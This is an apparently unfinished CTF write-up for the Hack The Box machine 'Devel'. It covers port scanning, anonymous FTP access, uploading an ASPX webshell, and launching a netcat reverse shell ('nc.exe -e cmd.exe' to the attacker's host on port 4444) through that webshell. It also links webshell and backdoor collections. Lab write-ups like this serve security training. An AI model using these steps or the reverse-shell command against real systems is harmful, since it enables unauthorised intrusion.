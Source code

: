 # Devel 

**Links:** [1](https://www.hackthebox.com/machines/Devel)  [2](https://app.hackthebox.com/machines/Devel)

**Machine ip:** 10.10.10.5

![devel](https://github.com/h4md153v63n/CTFs/assets/5091265/9ab7e4a6-088a-4d20-88e1-5bc25641cfa1)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.5 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.5 --open

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fd580f7a-f9d8-4301-9fd7-82b27bb870e8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/346d5392-a21f-4dde-b88b-5d98570477a1)


## Enumeration
```
ftp 10.10.10.5

Name (10.10.10.5:kali): anonymous
Password:

dir
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5149c861-836c-4c01-adf3-c5e5c3ad24d8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/239327b2-ccb6-453a-9645-357665efbd90)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8f62462c-3a38-4713-85c3-4d48866cbec0)


## Exploitation & Gaining Access 
Download, and transfer asp webshell using [cmd.aspx](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx).

```
put cmd.aspx

dir
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cf0496fc-5036-426f-9943-52b96ec96bd1)

Navigate to "http://10.10.10.5/cmd.aspx", and get a webshell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a37e66b5-b01c-4d6a-b2bb-bd8c4c0b464b)

Trigger the reverse shell:

```
# On the kali attack vm:
ls /usr/share/windows-binaries

smbserver.py tmp /usr/share/windows-binaries

nc -lnvp 4444

# On the webshell:
Program: \\10.10.14.24\tmp\nc.exe

Arguments: -e cmd.exe 10.10.14.24 4444

Run
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/34e2978a-e667-4b52-be83-934e27050b5a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/78cf0d24-8148-458c-9b1d-bb9f20707968)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1f5378dd-6bf9-42f4-86ab-3d02c331d11b)


## Privilege Escalation



# References & Alternatives
+ https://vvmlist.github.io/#devel
+ x


## CVE Scripting
+ x


## Tools
+ **webshell / cmd.aspx:** https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx
  + https://github.com/nikicat/web-malware-collection/blob/master/Backdoors/ASP/cmd.aspx


## Technical Knowledge
+ x


## Problems Solution
+ x


## For More
+ x
